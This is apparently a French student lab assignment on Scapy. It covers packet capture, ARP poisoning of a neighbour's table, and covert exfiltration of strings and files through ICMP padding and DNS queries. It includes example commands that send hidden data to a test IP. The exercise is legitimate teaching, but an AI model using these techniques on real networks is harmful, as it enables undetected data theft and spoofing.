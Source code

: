 # TP4 SECU : Exfiltration

# Sommaire

- [TP4 SECU : Exfiltration](#tp4-secu--exfiltration)
- [Sommaire](#sommaire)
- [I. Getting started Scapy](#i-getting-started-scapy)
- [II. ARP Poisoning](#ii-arp-poisoning)
- [II. Exfiltration ICMP](#ii-exfiltration-icmp)
- [III. Exfiltration DNS](#iii-exfiltration-dns)

# I. Getting started Scapy

🌞 **`ping.py`**

J'ai ping le pc d'Alan car on ne peut pas ping la passerelle d'Ynov :x

```
PS C:\Users\maxfe\TP_Reseaux_B2> python.exe .\ping.py
Begin emission:
Finished sending 1 packets.
.*
Received 2 packets, got 1 answers, remaining 0 packets
Pong reçu : QueryAnswer(query=<Ether  dst=98:3b:8f:b4:db:38 src=84:14:4D:10:5E:AF type=IPv4 |<IP  frag=0 proto=icmp src=10.33.76.218 dst=10.33.77.246 |<ICMP  type=echo-request |>>>, answer=<Ether  dst=84:14:4d:10:5e:af src=98:3b:8f:b4:db:38 type=IPv4 |<IP  version=4 ihl=5 tos=0x0 len=28 id=32774 flags= frag=0 ttl=64 proto=icmp chksum=0x4bc9 src=10.33.77.246 dst=10.33.76.218 |<ICMP  type=echo-reply code=0 chksum=0x0 id=0x0 seq=0x0 |>>>)
```

🌞 **`tcp_cap.py`**

```
PS C:\Users\maxfe\TP_Reseaux_B2> python.exe .\tcp_cap.py
TCP SYN ACK reçu !
- Adresse IP src : 10.33.76.218
- Adresse IP dst : 162.159.133.234
- Port TCP src : 12283
- Port TCP dst : 443
```

🌞 **`dns_cap.py`**

- fonction `sniff()`
- capturer une requête DNS et sa réponse
  - une requête DNS pour connaître l'IP de `ynov.com`
- **afficher uniquement** l'adresse contenue dans la réponse
- utiliser une commande depuis votre terminal pour faire la requête DNS pendant que votre script `dns_cap.py` tourne
  - `nslookup` sous Windows
  - `dig` sous GNU/Linux

🌞 **`dns_lookup.py`**

- craftez une requête DNS à la main
- en entier encore là, toute la trame, vous devez utiliser la méthode `srp()`

# II. ARP Poisoning

BON VOUS ALLEZ PAS Y COUPER SI VOUS L'AVEZ JAMAIS FAIT.

**P'tit détour rapide sur un ARP Poisoning simple.** Pas question de MITM ici, juste injecter une fausse donnée dans la table ARP de quelqu'un.

🌞 **`arp_poisoning.py`**

- craftez une trame ARP qui empoisonne la table d'un voisin
  - je veux que, pour la victime, l'adresse IP `10.13.33.37` corresponde à la MAC `de:ad:be:ef:ca:fe`
- **testez avec des VMs uniquement, ou entre vous uniquement**
- prouvez avec une commande sur la machine victime que la fausse donnée a été injectée
- vous n'avez le droit qu'aux fonctions `srp()`, `sr()`, `send()`, `sendp()`

# II. Exfiltration ICMP

➜ **Ici, on va se servir de notre ami le ping pour exfiltrer des données.**

Si vous n'aviez pas noté jusqu'alors en faisant joujou à la partie I, chaque paquet ICMP (ping et pong) contiennent une section appelée "padding" de taille variable, généralement remplie de 0. C'est là, on envoie plein de 0 sur le réseau, kom sa, à chaque ping.

**C'est l'endroit idéal pour stocker des données meow.**

P'tit schéma d'un paquet ICMP [~~volé sur internet ici~~](https://www.freesoft.org/CIE/Course/Section3/7.htm) :

![Kikoo toa](./img/padding.png)

**On va littéralement envoyer des pings, mais le padding on va l'utiliser pour stocker des données.** Autrement dit, on va utiliser des pings pour envoyer de la data à quelqu'un.

Dans notre contexte : pour exfiltrer des données, on peut juste envoyer des ping enfet !

🌞 **`icmp_exf_send.py`**

- envoie un caractère passé en argument dans un ping
  - un seul caractère pour le moment
- l'IP destination est aussi passée en argument
- on doit pouvoir faire par exemple :

```bash
# envoie le caractère "j" caché dans un ping vers 10.1.1.1
$ python icmp_exfiltration_send_1.py 10.1.1.1 j
```

On peut récup les arguments passés au script comme ça :

```python
# La liste argv contient tous les arguments dans l'ordre
from sys import argv

print(f"Ceci est le premier argument : {argv[0]}.")
print(f"Ceci est le deuxième argument : {argv[1]}.")
```

🌞 **`icmp_exf_receive.py`**

- sniff le réseau
- affiche **UNIQUEMENT** le caractère caché si un paquet ICMP d'exfiltration est reçu et quitte après réception de 1 paquet
- si un ping legit est reçu, ou n'importe quoi d'autre votre code doit continuer à tourner
- il attend (avec un filtre sur `sniff()` et des conditions dans la fonction qui traite le paquet) **uniquement** le ping qui contient les données exfiltrées, et les affiche

> Mettez vous dans un setup à deux PCs, ou avec une VM, truc du genre.

⭐ **Bonus 1 easy :**

- **`icmp_exf_send_b1.py`** et **`icmp_exf_receive_b1.py`**
- parce que là, bon envoyer "j" ça sert à rien
- faites en sorte que ça fonctionne peu importe la longueur de la string passée en argument du script `icmp_exf_send_b1.py`
  - bah oui le padding il a une taille limitée...
  - quelle taille ? [See une bonne doc](https://www.freesoft.org/CIE/Course/Section3/7.htm)
  - il va falloir donc couper la string en plusieurs morceaux, et envoyer plusieurs pings !
- le programme qui reçoit `icmp_exf_receive_b1.py` doit reconstruire le message à partir de tous les pings qu'il reçoit
  - **il affiche toujours uniquement la string cachée**, rien d'autre
- on doit donc pouvoir faire des trucs comme :

```bash
# envoie une string cachée dans un ping vers 10.1.1.1
$ python icmp_exf_send_nolimit.py 10.1.1.1 "Coucou toi comment ça va broooooo"
```

⭐ **Bonus 2 hard : `icmp_exf_send_anything.py`**

- **`icmp_exf_send_b2.py`** et **`icmp_exf_receive_b2.py`**
- envoyez un fichier avec des ping
- faites simple pour les tests : créez un fichier de quelque Ko tout au plus (peu importe le format justement, on s'en fout)
- genre une fois que ça marche, on doit pouvoir envoyer des JPEG avec des ping
- c'est la même idée que la string : fragmenter le JPEG en p'tits morceaux, envoyer, reconstituer de l'autre côté

# III. Exfiltration DNS

**DNS est donc un protocole qu'on peut aussi détourner de son utilisation première pour faire de l'exfiltration.**

Vu qu'on va envoyer des requêtes DNS pour exfiltrer les données il faut dans l'idéal un service qui tourne pour les recevoir (port 53 UDP), et sur cette machine qui fait tourner le service, un ptit programme `scapy` qui réceptionne et traite tout ce qui est reçu. Les logs du service ça peut faire l'affaire aussi !

> Bon ! Vous vous me la faites tout seul celle-ci ? Quelques recherches sur internet, y'a toute la doc du monde sur ça.

🌞 **`dns_exfiltration_send.py`**

- envoie des données passées en argument à l'IP passée en argument
- utilise le protocole DNS pour exfiltrer lesdites données
- une string de 20 caractères doit pouvoir être exfiltrée

On doit pouvoir faire :

```bash
$ dns_exfiltration_send.py 10.1.1.1 toto
```

⭐ **Bonus 3 mid : `dns_exfiltration_send.py`**

- en dernier bonus : mettez en place le code qui reçoit votre exfiltration DNS
- il n'affiche que les strings cachées dans les requêtes reçues

![DNS exfiltration](./img/dns_exf.jpg)